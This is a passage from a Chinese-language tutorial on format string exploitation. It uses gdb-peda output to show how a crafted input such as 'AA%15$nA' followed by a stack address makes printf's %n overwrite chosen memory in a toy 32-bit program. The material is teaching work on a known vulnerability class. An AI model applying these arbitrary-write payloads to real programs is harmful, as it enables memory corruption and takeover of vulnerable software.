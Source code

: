 ```text
Legend: code, data, rodata, value
0x08048520 in main ()
gdb-peda$ x/20x $esp
0xffffd530:     0xffffd564      0x00000001      0x00000020      0xffffffff
0xffffd540:     0xffffd55a      0xffffd564      0x080481fc      0x080484b0
0xffffd550:     0xf7ffda54      0x00000001      0x424135d0      0x00004443
0xffffd560:     0x00000000      0xffffd538      0x78383025      0x78383025
0xffffd570:     0x32313025      0x33312564      0x00006e24      0xf7e70240
```

对比 `printf()` 函数执行前后的输出，`printf` 首先解析 `%13$n` 找到获得地址 `0xffffd564` 的值 `0xffffd538`，然后跳转到地址 `0xffffd538`，将它的值 `0x88888888` 覆盖为 `0x00000020`，就得到 `arg2=0x00000020`。

### 覆盖任意地址内存

也许已经有人发现了一个问题，使用上面覆盖内存的方法，值最小只能是 4，因为单单地址就占去了 4 个字节。那么我们怎样覆盖比 4 小的值呢。利用整数溢出是一个方法，但是在实践中这样做基本都不会成功。再想一下，前面的输入中，地址都位于格式字符串之前，这样做真的有必要吗，能否将地址放在中间。我们来试一下，使用格式字符串 `"AA%15$nA"+"\x38\xd5\xff\xff"`，开头的 `AA` 占两个字节，即将地址赋值为 `2`，中间是 `%15$n` 占 5 个字节，这里不是 `%13$n`，因为地址被我们放在了后面，在格式字符串的第 15 个参数，后面跟上一个 `A` 占用一个字节。于是前半部分总共占用了 2+5+1=8 个字节，刚好是两个参数的宽度，这里的 8 字节对齐十分重要。最后再输入我们要覆盖的地址 `\x38\xd5\xff\xff`，详细输出如下：

```text
$ python2 -c 'print("AA%15$nA"+"\x38\xd5\xff\xff")' > text
$ gdb -q a.out
Reading symbols from a.out...(no debugging symbols found)...done.
gdb-peda$ b printf  
Breakpoint 1 at 0x8048350
gdb-peda$ r < text  
[----------------------------------registers-----------------------------------]
EAX: 0xffffd564 ("AA%15$nA8\325\377\377")
EBX: 0x804a000 --> 0x8049f14 --> 0x1
ECX: 0x1
EDX: 0xf7f9883c --> 0x0
ESI: 0xf7f96e68 --> 0x1bad90
EDI: 0x0
EBP: 0xffffd5f8 --> 0x0
ESP: 0xffffd52c --> 0x8048520 (<main+138>:      add    esp,0x20)
EIP: 0xf7e27c20 (<printf>:      call   0xf7f06d17 <__x86.get_pc_thunk.ax>)
EFLAGS: 0x292 (carry parity ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0xf7e27c1b <fprintf+27>:     ret
   0xf7e27c1c:  xchg   ax,ax
   0xf7e27c1e:  xchg   ax,ax
=> 0xf7e27c20 <printf>: call   0xf7f06d17 <__x86.get_pc_thunk.ax>
   0xf7e27c25 <printf+5>:       add    eax,0x16f243
   0xf7e27c2a <printf+10>:      sub    esp,0xc
   0xf7e27c2d <printf+13>:      mov    eax,DWORD PTR [eax+0x124]
   0xf7e27c33 <printf+19>:      lea    edx,[esp+0x14]
No argument
[------------------------------------stack-------------------------------------]
0000| 0xffffd52c --> 0x8048520 (<main+138>:     add    esp,0x20)
0004| 0xffffd530 --> 0xffffd564 ("AA%15$nA8\325\377\377")
0008| 0xffffd534 --> 0x1
0012| 0xffffd538 --> 0x88888888
0016| 0xffffd53c --> 0xffffffff
0020| 0xffffd540 --> 0xffffd55a ("ABCD")
0024| 0xffffd544 --> 0xffffd564 ("AA%15$nA8\325\377\377")
0028| 0xffffd548 --> 0x80481fc --> 0x38 ('8')
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0xf7e27c20 in printf () from /usr/lib32/libc.so.6
gdb-peda$ x/20x $esp
0xffffd52c:     0x08048520      0xffffd564      0x00000001      0x88888888
0xffffd53c:     0xffffffff      0xffffd55a      0xffffd564      0x080481fc
```